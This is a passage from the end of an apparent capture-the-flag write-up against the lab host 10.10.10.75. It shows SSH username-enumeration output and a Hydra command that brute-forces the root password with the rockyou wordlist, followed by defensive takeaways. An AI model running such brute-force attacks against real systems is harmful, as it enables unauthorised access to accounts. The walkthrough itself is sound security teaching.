[-] 10.10.10.75:22 - SSH - User 'rfindd' not found
[-] 10.10.10.75:22 - SSH - User 'rje' not found
[+] 10.10.10.75:22 - SSH - User 'root' found
[-] 10.10.10.75:22 - SSH - User 'ROOT' not found
[-] 10.10.10.75:22 - SSH - User 'rooty' not found
[-] 10.10.10.75:22 - SSH - User 'rpc' not found
[-] 10.10.10.75:22 - SSH - User 'rpcuser' not found
[-] 10.10.10.75:22 - SSH - User 'rtkit' not found
[-] 10.10.10.75:22 - SSH - User 'rwhod' not found
[-] 10.10.10.75:22 - SSH - User 'saned' not found
[-] 10.10.10.75:22 - SSH - User 'service' not found
[-] 10.10.10.75:22 - SSH - User 'setroubleshoot' not found
[-] 10.10.10.75:22 - SSH - User 'setup' not found
[-] 10.10.10.75:22 - SSH - User 'sgiweb' not found
[-] 10.10.10.75:22 - SSH - User 'shutdown' not found
[-] 10.10.10.75:22 - SSH - User 'sigver' not found
[-] 10.10.10.75:22 - SSH - User 'speech-dispatcher' not found
[+] 10.10.10.75:22 - SSH - User 'sshd' found
[-] 10.10.10.75:22 - SSH - User 'sslh' not found
[-] 10.10.10.75:22 - SSH - User 'sssd' not found
[-] 10.10.10.75:22 - SSH - User 'stunnel4' not found
[-] 10.10.10.75:22 - SSH - User 'sym' not found
[-] 10.10.10.75:22 - SSH - User 'symop' not found
[+] 10.10.10.75:22 - SSH - User 'sync' found
[+] 10.10.10.75:22 - SSH - User 'sys' found
[-] 10.10.10.75:22 - SSH - User 'sysadm' not found
[-] 10.10.10.75:22 - SSH - User 'sysadmin' not found
[-] 10.10.10.75:22 - SSH - User 'sysbin' not found
[+] 10.10.10.75:22 - SSH - User 'syslog' found
[-] 10.10.10.75:22 - SSH - User 'system_admin' not found
[+] 10.10.10.75:22 - SSH - User 'systemd-bus-proxy' found
[-] 10.10.10.75:22 - SSH - User 'systemd-coredump' not found
[+] 10.10.10.75:22 - SSH - User 'systemd-network' found
[+] 10.10.10.75:22 - SSH - User 'systemd-resolve' found
[+] 10.10.10.75:22 - SSH - User 'systemd-timesync' found
[-] 10.10.10.75:22 - SSH - User 'tcpdump' not found
[-] 10.10.10.75:22 - SSH - User 'trouble' not found
[-] 10.10.10.75:22 - SSH - User 'tss' not found
[-] 10.10.10.75:22 - SSH - User 'udadmin' not found
[-] 10.10.10.75:22 - SSH - User 'ultra' not found
[-] 10.10.10.75:22 - SSH - User 'umountfs' not found
[-] 10.10.10.75:22 - SSH - User 'umountfsys' not found
[-] 10.10.10.75:22 - SSH - User 'umountsys' not found
[-] 10.10.10.75:22 - SSH - User 'unix' not found
[-] 10.10.10.75:22 - SSH - User 'unscd' not found
[-] 10.10.10.75:22 - SSH - User 'us_admin' not found
[-] 10.10.10.75:22 - SSH - User 'usbmux' not found
[-] 10.10.10.75:22 - SSH - User 'user' not found
[+] 10.10.10.75:22 - SSH - User 'uucp' found
[-] 10.10.10.75:22 - SSH - User 'uucpadm' not found
[+] 10.10.10.75:22 - SSH - User 'uuidd' found
[-] 10.10.10.75:22 - SSH - User 'vagrant' not found
[-] 10.10.10.75:22 - SSH - User 'varnish' not found
[-] 10.10.10.75:22 - SSH - User 'web' not found
[-] 10.10.10.75:22 - SSH - User 'webmaster' not found
[-] 10.10.10.75:22 - SSH - User 'whoopsie' not found
[-] 10.10.10.75:22 - SSH - User 'www' not found
[+] 10.10.10.75:22 - SSH - User 'www-data' found
[-] 10.10.10.75:22 - SSH - User 'xpdb' not found
[-] 10.10.10.75:22 - SSH - User 'xpopr' not found
[-] 10.10.10.75:22 - SSH - User 'zabbix' not found
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
Bruteforce
I ran a bruteforce against SSH in background, in case it came up with something (spoiler: it didn’t).
hydra -l root -P /usr/share/dict/rockyou.txt 10.10.10.75 -t 4 ssh
-lis the user to bruteforce-Pis the path to the wordlist-t 4is the number of tasks
Take-Aways
- We’ve seen how to use Hydra to bruteforce ssh and HTTP POST forms
- Avoid using guessable passwords when you’re an admin
- Avoid using obscure blog engines with published RCEs. I think nibbleblog was EOL’ed, so migrate to another blog engine is the only solution.
- The privesc used a bad configuration of
sudoallowing the user to run root commands without a password.